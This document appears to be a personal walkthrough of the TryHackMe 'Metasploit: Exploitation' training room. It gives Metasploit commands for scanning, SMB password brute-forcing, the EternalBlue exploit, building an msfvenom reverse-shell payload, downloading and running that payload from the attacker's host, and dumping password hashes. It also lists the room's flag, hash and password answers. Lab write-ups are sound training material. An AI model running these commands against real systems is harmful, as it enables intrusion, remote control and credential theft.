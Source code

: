 ```yaml
---
msf:
  - "Metasploit: Exploitation"
Date: 12 April 2024
Platform: metasploit
Category: paid
Difficulty: easy
tags:
  - THM
Status: 
IP: 10.10.186.136
---
```

# Metasploit: Exploitation 
---
description: Using Metasploit for scanning, vulnerability assessment and exploitation.
	[link of the room](https://tryhackme.com/room/metasploitexploitation)

## Task 2 Scanning

#### How many ports are open on the target system?

```bash
msfconsole
msf > search portscan
msf > use 5
msf > setg RHOSTS 10.10.186.136
msf > run
```
![[msfconsole.png]]
![[portscan.png]]

![[porscanresult.png]]
#### Using the relevant scanner, what NetBIOS name can you see?

```bash
msf > search netbios
msf > use 2
msf > run
```
![[netbios.png]]
![[netbios_result.png]]
`ACME IT SUPPORT`
#### What is running on port 8000?

```bash
msf > search http_version
msf > show options
msf > use 0
msf > set RHOST 10.10.186.136
msf > set RPORT 8000
msf > run
```
![[search_http.png]]
![[httpnmap.png]]

`webfs/1.21`
#### What is the "penny" user's SMB password?

```bash
msf > search smb_login
msf > use 0
msf > set RHOSTS 10.10.186.136
msf > set SMBUser penny
msf > set PASS_FILE MetasploitWordlist-1632491116676.txt
msf > run
```
![[search_smb_login.png]]
![[smb_login.png]]
![[smbbruteforce.png]]
`leo1234`
## Task 4 Vulnerability Scanning

#### Who wrote the module that allows us to check SMTP servers for open relay?

```bash
msf > search smtp relay
msf > use 0
msf > info
```
![[smtp_relay.png]]
## Task 5 Exploitation

#### Exploit one of the critical vulnerabilities on the target VM

```bash
msfconsole
msf > search eternalblue 
msf > use 0
msf > set RHOSTS 10.10.5.180
msf > set LHOST 10.8.45.125
msf > run
```

![[search_eternalblue.png]]
![[run_blue.png]]
#### What is the content of the flag.txt file?

```bash
meterpreter > search -d C:\\ -f flag.txt
meterpreter > cat 'C:\Users\Jon\Documents\flag.txt'
```

`THM-5455554845`
#### What is the NTLM hash of the password of the user "pirate"?

```bash
hashdump
```

`8ce9a3ebd1647fcc5e04025019f4b875`
## Task 6 Msfvenom

#### Launch the VM attached to this task. The username is murphy, and the password is 1q2w3e4r. You can connect via SSH or launch this machine in the browser. Once on the terminal, type "sudo su" to get a root shell, this will make things easier.

```bash
ssh murphy@10.10.223.208
sudo -l
sudo su -
```
#### Create a meterpreter payload in the .elf format.
```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf
```
![[shell.png]]
#### Transfer it to the target machine

```bash
python -m http.server
```

![](share.png)
### Download malicious file from attacker side

~~~bash
wget http://10.8.45.125:8000/rev_shell.elf
~~~

![](transfer.png)
#### Get a meterpreter session on the target machine.
```bash
chmod +x shell.elf
./shell.elf
```
![](chmod.png)
```bash
msf > use exploit/multi/handler
msf > set payload linux/x86/meterpreter/reverse_tcp
msf > set LHOST 10.8.45.125
msf > run
```
![[metas.png]]
#### Use a post exploitation module to dump hashes of other users on the system.

```bash
meterpreter > run post/linux/gather/hashdump
```

 
![](hashdump.png)
#### What is the other user's password hash?
```
$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0:18851
```
